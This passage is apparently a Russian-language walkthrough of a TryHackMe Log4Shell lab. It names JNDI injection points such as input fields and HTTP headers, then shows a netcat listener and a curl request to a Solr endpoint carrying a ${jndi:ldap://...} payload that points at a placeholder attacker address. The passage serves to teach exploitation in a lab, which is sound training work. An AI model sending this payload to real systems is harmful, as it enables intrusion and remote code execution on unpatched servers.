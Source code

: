 В других местах вы можете указать этот синтаксис JNDI:
- Поля ввода, формы входа в систему с использованием имени пользователя и пароля, точки ввода данных в приложениях
- Заголовки HTTPUser-Agent , такие как , X-Forwarded-For или другие настраиваемые заголовки
- Любое место для данных, предоставленных пользователем
Если вам нужна дополнительная информация об этом векторе атаки JNDI, ознакомьтесь с презентацией Black Hat USA от 2016 года.

https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE .pdf

### Ответьте на вопросы ниже
Чтобы подготовить свою среду для тестирования уязвимости и получения соединения, просмотрите IP-адрес своей 
атакующей машины с помощью следующей команды: 

Посмотреть IP-адрес машины AttackBox
attackbox@tryhackme$ ip addr show
```commandline
Ответ не нужен
```
Подготовьте прослушиватель netcat на любом порту по вашему выбору (9999 — хороший пример):

Настройка прослушивателя netcat
attackbox@tryhackme$ nc -lnvp 9999
```commandline
Ответ не нужен
```
Теперь, когда у вас есть подготовленный слушатель, сделайте запрос, включающий этот примитивный синтаксис полезной 
нагрузки JNDI как часть параметров HTTP. Это можно легко сделать с помощью утилиты командной строки curl. 

Сделайте запрос curl с полезной нагрузкой JNDI
attackbox@tryhackme$ curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
Обратите внимание, что из-за использования символа доллара $ в вашем синтаксисе вы должны убедиться, что вы 
заключили URL в одинарные кавычки, чтобы bash (ваша командная оболочка) не интерпретировала его как переменную. 
Кроме того, вы должны экранировать фигурные скобки { } одним символом обратной косой черты, чтобы они не были 
неправильно представлены в аргументах команды curl.   
```commandline
Ответ не нужен
```
Убедитесь, что соединение установлено, увидев следующее сообщение в вашем прослушивателе netcat:

Connection received from MACHINE_IP
```commandline
Ответ не нужен
```

## Задание 5
На этом этапе вы убедились, что цель действительно уязвима, увидев, что это соединение поймано в вашем 
netcat слушателе. Однако он сделал запрос LDAP... так что все, что ваш netcat слушатель мог увидеть, это непечатаемые 
символы (странно выглядящие байты). Теперь мы можем построить на этой основе ответ с помощью настоящего обработчика 
LDAP.   
